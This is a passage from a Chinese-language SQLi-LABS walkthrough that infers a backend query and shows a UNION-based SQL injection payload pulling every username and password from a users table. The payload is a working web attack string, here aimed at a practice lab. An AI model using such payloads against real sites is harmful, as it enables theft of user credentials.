       ![image-20211025224638599](../../images/SQLi-LABS/image-20211025224638599.png)

+ 根据目前得到的数据我们可以推断出该SQL语句为：

```sql
select column1, column2, column3 form table where id = '$id' limit 0,1;
```

+ 接下来我们需要获取所有的数据（查询该数据库中的所有表和所有列这里就不进行演示了）。

```sql
0' union select 1,(select group_concat(username) from users),(select group_concat(passwoorrd) from users) --
```

![image-20211025225050527](../../images/SQLi-LABS/image-20211025225050527.png)
